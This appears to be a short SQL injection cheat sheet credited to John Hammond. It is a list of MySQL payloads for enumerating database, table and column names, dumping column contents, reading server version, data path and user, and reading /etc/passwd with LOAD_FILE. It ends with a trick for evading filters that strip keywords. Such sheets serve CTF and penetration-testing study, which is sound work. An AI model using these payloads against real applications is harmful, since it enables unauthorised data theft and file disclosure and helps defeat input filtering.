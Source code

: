 SQL Injection Syntax Cheatsheet
=============

> John Hammond 


Leak all of the database names as a string
-----------------------------

```
SELECT GROUP_CONCAT( SCHEMA_NAME ) FROM INFORMATION_SCHEMA.SCHEMATA
```

Leak all of the tables in one database as a string
-----------

```
SELECT GROUP_CONCAT( TABLE_NAME ) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA="<DATABASE_NAME>"
```

Leak the column names of a table as a string
------------------

```
SELECT GROUP_CONCAT( COLUMN_NAME ) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME="<TABLE NAME>"
```

Leak the ONE column from a table
------------------

```
SELECT GROUP_CONCAT( "<COLUMN_NAME>" ) FROM "<TABLE NAME>"
```

___IF THIS DOES NOT WORK, TRY WITHOUT THE QUOTES!!___


Get the path of the running MySQL instance
------------------


```
SELECT @@datadir
```

Get the version of the running MySQL instance
------------------

```
SELECT @@version
```


Get current user
------------------


```
SELECT user();
```

```
SELECT system_user();
```

Read a file
------------------


```
SELECT LOAD_FILE("/etc/passwd");
```


Etcetera..
------

Some applications try to replace keywords with an empty string. If this is the case, try and trick it by placing the keyword inside of itself. This is devious! 

```
frfromom => from
oorr => or
loaload_filed_file => load_file
selselectect => select
```